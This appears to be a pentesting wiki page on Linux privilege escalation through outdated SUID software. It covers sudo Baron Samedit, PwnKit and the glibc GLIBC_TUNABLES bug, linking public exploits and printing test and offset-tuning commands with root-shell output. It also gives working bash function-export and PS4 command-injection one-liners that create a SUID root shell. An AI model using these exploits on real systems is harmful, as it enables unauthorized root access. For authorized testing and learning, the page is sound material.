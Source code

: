 ```yaml
---
description: >-
  Some common services run with elevated privileges, and can be dangerous if set
  up incorrectly or are outdated
---
```


# Outdated Versions

Default SUID binaries

There are some common programs that require the SUID bit to work, like sudo. There is a lot of research into finding vulnerabilities in these programs specifically for Privilege Escalation. You can look up the version of a program with a term like "exploit" or "CVE" to find known exploits for it. [GitHub ](https://github.com/)and [ExploitDB](https://www.exploit-db.com/) are is great resources where Proof of Concepts are often shared, so make sure to search there if you know the program is vulnerable.&#x20;

Here are a few easily exploitable vulnerabilities in common outdated programs:

### Sudo < 1.9.5p2 (CVE-2021-3156)

The `sudoedit` program has a Heap-Based Buffer Overflow vulnerability. For all the technical details see [this writeup](https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31).&#x20;

A simple proof-of-concept script was quickly made in C that you likely need to compile on the target:

{% embed url="https://github.com/CptGibbon/CVE-2021-3156" %}
An exploit of Sudo Baron Samedit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/worawit/CVE-2021-3156" %}
A few versions of the Sudo Baron Samedit exploit written in Python
{% endembed %}

### PwnKit (CVE-2021-4034)

Polkit's `pkexec` program is another SUID binary. It had a vulnerability with the PATH variable allowing you to load an arbitrary shared library, and execute any code you want. For all the technical details see [this writeup](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

A proof-of-concept was made in C that you need to compile and run on the target:

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
An exploit of PwnKit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}
An exploit of PwnKit written in Python
{% endembed %}

### glibc `ld.so` > 2.34 (CVE-2023-4911)

A vulnerability in the glibc loader was found, which is used in almost all SUID binaries. It can be triggered via environment variables, specifically `GLIBC_TUNABLES`. A simple proof-of-concept was made to test if the current version is vulnerable, which uses any SUID binary like `su`:

{% code overflow="wrap" %}
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```
{% endcode %}

{% code title="Vulnerable output" %}
```
Segmentation fault
```
{% endcode %}

{% code title="Patched output" %}
```
Usage:
 su [options] [-] [<user> [<argument>...]]
...
```
{% endcode %}

If you find that it is vulnerable, you can exploit it using one of the many scripts that were made. A useful one is the one made by [@bl4sty](https://twitter.com/bl4sty) which has 2 modes depending on **ASLR**:

* **Disabled**: "Search offset" which will try offsets 128-1024 until a dummy payload triggers
* **Enabled**: "Exploit" which uses a static offset to exploit it in a real environment

{% embed url="https://haxx.in/files/gnu-acme.py" %}
Proof of Concept with offset finder to get a root shell
{% endembed %}

Finding this offset is important because not all environments have the same one. A few common ones are included in the `TARGETS` variable in the Python script above. For consistent success on arbitrary systems, you should first _recreate the target environment_ and disable ASLR:

<pre class="language-shell-session" data-title="Recreated environment"><code class="lang-shell-session"><strong>$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
</strong><strong>$ python3 gnu-acme.py
</strong>...
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 561
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 562
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 563
</code></pre>

Then use any of these working offsets with ASLR enabled to get a shell in a few minutes:

{% code title="gnu-acme.py" %}
```diff
TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
...
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
+   "4f536ac1cd2e8806aed8556ea7795c47404de8a9": 561,
}
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ python3 gnu-acme.py
</strong>...
[i] using stack addr 0x7ffe1010100c
...................................................................................
** ohh... looks like we got a shell? **
<strong># id
</strong>uid=0(root) gid=1001(user) groups=1001(user)
</code></pre>

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
